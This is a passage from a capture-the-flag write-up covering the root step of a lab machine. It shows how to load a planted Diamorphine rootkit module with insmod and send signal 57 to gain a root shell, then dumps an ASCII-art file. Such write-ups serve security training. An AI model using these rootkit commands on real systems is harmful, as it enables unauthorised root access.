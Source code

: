 * As can be seen and as expected, the signal which needs to be sent in order to become root, is no longer set ti **64**, but rather **0x39**, which is **57** in decimal.
* In other words, we need to send the signal **57** in order to become **root**

### **<strong><font color="DarkKhaki">Shell as root</font></strong>**

* Let's run the following commands, to escalate privileges to root, thanks to the Diamorphine rootkit:

```bash
athena@routerpanel:~$ sudo /usr/sbin/insmod /mnt/.../secret/venom.ko
athena@routerpanel:~$ kill -57 0
```

<img src="https://raw.githubusercontent.com/YounesTasra-R4z3rSw0rd/YounesTasra-R4z3rSw0rd.github.io/main/assets/img/thm-athena/2023-09-17 18_37_37-KaliLinux - VMware Workstation 17 Player (Non-commercial use only).png" alt="">
<center><i>root shell</i></center>
<br/>

* As simple as that, we became root and retrieved the root flag !!

> **NOTE:** *If you get an error saying that the module could not be inserted, it means that the module has already been loaded and you should be able to interact with it as shown in the figure above.*

### **<strong><font color="DarkKhaki">fsociety00.dat</font></strong>**

```bash
root@routerpanel:~# cat /root/fsociety00.dat
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXXX
XX                                                                          XX
XX   MMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMMM   XX
XX   MMMMMMMMMMMMMMMMMMMMMssssssssssssssssssssssssssMMMMMMMMMMMMMMMMMMMMM   XX
XX   MMMMMMMMMMMMMMMMss'''                          '''ssMMMMMMMMMMMMMMMM   XX
XX   MMMMMMMMMMMMyy''                                    ''yyMMMMMMMMMMMM   XX
XX   MMMMMMMMyy''                                            ''yyMMMMMMMM   XX
XX   MMMMMy''                                                    ''yMMMMM   XX
XX   MMMy'                                                          'yMMM   XX
XX   Mh'                                                              'hM   XX
XX   -                                                                  -   XX
XX                                                                          XX
XX   ::                                                                ::   XX
XX   MMhh.        ..hhhhhh..                      ..hhhhhh..        .hhMM   XX               
XX   MMMMMh   ..hhMMMMMMMMMMhh.                .hhMMMMMMMMMMhh..   hMMMMM   XX
XX   ---MMM .hMMMMdd:::dMMMMMMMhh..        ..hhMMMMMMMd:::ddMMMMh. MMM---   XX              
XX   MMMMMM MMmm''      'mmMMMMMMMMyy.  .yyMMMMMMMMmm'      ''mmMM MMMMMM   XX
XX   ---mMM ''             'mmMMMMMMMM  MMMMMMMMmm'             '' MMm---   XX
XX   yyyym'    .              'mMMMMm'  'mMMMMm'              .    'myyyy   XX
XX   mm''    .y'     ..yyyyy..  ''''      ''''  ..yyyyy..     'y.    ''mm   XX
XX           MN    .sMMMMMMMMMss.   .    .   .ssMMMMMMMMMs.    NM           XX
XX           N`    MMMMMMMMMMMMMN   M    M   NMMMMMMMMMMMMM    `N           XX
XX            +  .sMNNNNNMMMMMN+   `N    N`   +NMMMMMNNNNNMs.  +            XX
XX              o+++     ++++Mo    M      M    oM++++     +++o              XX               
XX                                oo      oo                                XX
XX           oM                 oo          oo                 Mo           XX
```